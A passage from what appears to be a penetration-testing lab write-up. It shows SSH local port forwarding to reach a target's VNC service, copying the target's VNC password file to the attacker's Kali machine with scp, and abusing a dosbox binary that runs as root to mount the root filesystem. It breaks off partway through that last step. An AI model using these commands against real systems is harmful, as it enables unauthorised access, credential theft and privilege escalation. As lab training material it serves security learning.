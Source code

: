![image.png](image%2023.png)

We see port `5901`is working which is default port of VNC.

```bash
netstat -antp
```

![image.png](image%2024.png)

Running vncviewer

```bash
vncwiever -passwd passwd 127.0.0.1 
```

 does not work, we should forward that port to kali and access it from there.

SSH Local Port Forward:

```bash
ssh -L 1234:localhost:5901 commander@192.168.140.105
```

check it with 

```bash
netstat -antp
```

![image.png](image%2025.png)

Transfer password file from target to kali machine.

```bash
systemctl start ssh #start ssh in kali and use scp
scp passwd kali@192.168.45.237:/home/kali
vncviewer -passwd passwd 127.0.0.1:1234
```

![image.png](image%2026.png)

You can follow this [walkthrough](https://www.myhackingnotes.com/proving_grounds/forward.html) on how to abusing this binary wit GUI: 

Run `dosbox` 

```bash
/usr/bin/dosbox
```

This will run the binary as root.

![image.png](image%2027.png)

```bash
mount C: / #mount root to C drive
C: #change to C drive
```
